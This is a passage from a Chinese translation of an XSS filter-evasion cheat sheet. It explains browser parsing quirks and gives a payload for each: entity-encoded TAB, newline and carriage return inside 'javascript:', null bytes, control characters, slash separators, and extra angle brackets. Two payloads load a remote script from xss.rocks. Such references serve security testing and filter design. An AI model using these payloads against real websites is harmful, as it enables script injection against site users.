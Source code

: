 使用编码后的TAB来分开XSS攻击代码：

> <IMG SRC=”jav&#x09;ascript:alert(‘XSS’);”>

### 2.23.    内嵌换行分隔XSS攻击代码

一些网站声称09到13（十进制）的HTML实体字符都可以实现这种攻击，这是不正确的。只有09（TAB），10（换行）和13（回车）有效。查看ASCII字符表获取更多细节。下面几个XSS示例介绍了这些向量。

> <IMG SRC=”jav&#x0A;ascript:alert(‘XSS’);”>

### 2.24.    内嵌回车分隔XSS攻击代码

注意：上面使用了比实际需要长的字符串是因为0可以忽略。经常可以遇到过滤器解码十六进制和十进制编码时认为只有2到3位字符。实际规则是1至7位字符：

> <IMG SRC=”jav&#x0D;ascript:alert(‘XSS’);”>

### 2.25.    使用空字符分隔JavaScript指令

空字符同样可以作为XSS攻击向量，但和上面有所区别，你需要使用一些例如Burp工具或在URL字符串里使用%00，亦或你想使用VIM编写自己的注入工具（^V^@会生成空字符），还可以通过程序生成它到一个文本文件。老版本的Opera浏览器（例如Windows版的7.11）还会受另一个字符173（软连字符）的影响。但是空字符%00更加有用并且能帮助绕过真实世界里的过滤器，例如这个例子里的变形：

> perl -e ‘print “<IMG SRC=java\0script:alert(\”XSS\”)>”;’ > out

### 2.26.    利用IMG标签中JavaScript指令前的空格和元字符

如果过滤器不计算”javascript:”前的空格，这是正确的，因为它们不会被解析，但这点非常有用。因为这会造成错误的假设，就是引号和”javascript:”字样间不能有任何字符。实际情况是你可以插入任何十进制的1至32号字符：

> <IMG SRC=” &#14;  javascript:alert(‘XSS’);”>

### 2.27.    利用非字母非数字字符

FireFox的HTML解析器认为HTML关键词后不能有非字母非数字字符，并且认为这是一个空白或在HTML标签后的无效符号。但问题是有的XSS过滤器认为它们要查找的标记会被空白字符分隔。例如”<SCRIPT\s” != “<SCRIPT/XSS\s”:

> <SCRIPT/XSS SRC=”<http://xss.rocks/xss.js>“></SCRIPT>

基于上面的原理，可以使用模糊测试进行扩展。Gecko渲染引擎允许任何字符包括字母，数字或特殊字符（例如引号，尖括号等）存在于事件名称和等号之间，这会使得更加容易绕过跨站脚本过滤。注意这同样适用于下面看到的重音符:

> <BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert(“XSS”)>

Yair Amit让我注意到了IE和Gecko渲染引擎有一点不同行为，在于是否在HTML标签和参数之间允许一个不含空格的斜杠。这会非常有用如果系统不允许空格的时候。

> <SCRIPT/SRC=”<http://xss.rocks/xss.js>“></SCRIPT>

### 2.28.    额外的尖括号

由Franz Sedlmaier提交，这个XSS攻击向量可以绕过某些检测引擎，比如先查找第一个匹配的尖括号，然后比较里面的标签内容，而不是使用更有效的算法，例如Boyer-Moore算法就是查找整个字符串中的尖括号和相应标签（当然是通过模糊匹配）。双斜杠注释了额外的尖括号来防止出现JavaScript错误：

> <<SCRIPT>alert(“XSS”);//<</SCRIPT>

### 2.29.    未闭合的script标签
